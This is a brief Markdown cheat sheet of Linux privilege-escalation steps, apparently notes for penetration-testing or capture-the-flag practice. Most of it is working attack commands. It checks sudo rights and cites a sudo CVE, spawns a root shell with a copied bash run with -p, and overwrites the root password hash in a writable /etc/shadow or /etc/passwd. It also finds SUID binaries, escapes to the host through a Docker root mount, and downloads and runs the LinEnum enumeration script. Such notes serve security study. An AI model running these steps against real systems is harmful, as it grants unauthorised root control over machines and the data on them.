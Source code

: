 					Sudo 
- Can you su without a password?		       `su root`
- are you already a sudo user?			   `sudo su -`
- what can we run with sudo?			  `sudo -l`
- sudo versions < 1.8.28 are vulnerable to `CVE-2019-14287`

<!-- -->
				Spawning root shells
Create a copy of /bin/bash or /bin/sh can you call it rootbash - make sure its owned by the root user. Then use /bin/bash -p to run it

				Writable /etc/shadow
`ls -l /etc/shadow`					is /etc/shadow writable?
- mkpasswd -m sha-512 password		Makes password Hash
- replace root password hash with the one you just generated
- su root								switch to root

<!-- -->

			 	Writable /etc/passwd
`ls -l /etc/passwd`					is /etc/passwd writeable?
- `openssl passwd password`			      Generate password hash
- place new password hash between first and second colon (:) of the root user's row (replacing the "x").
- su root							      switch to root

<!-- -->

				Suid
- Find all Suids `find / -perm -u=s -type f 2>/dev/null`

<!-- -->

				Docker
- get image name using 'docker ps'
- docker run -v /:/mnt --rm -it $imagenamehere chroot /mnt sh

<!-- -->
				Identify Capabilities

- `getcap -r / 2>/dev/null`

<!-- -->

				LinEnum
- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
- `./LinEnum.sh -t -r report.txt`

<!-- -->

				Misc
-- https://gtfobins.github.io/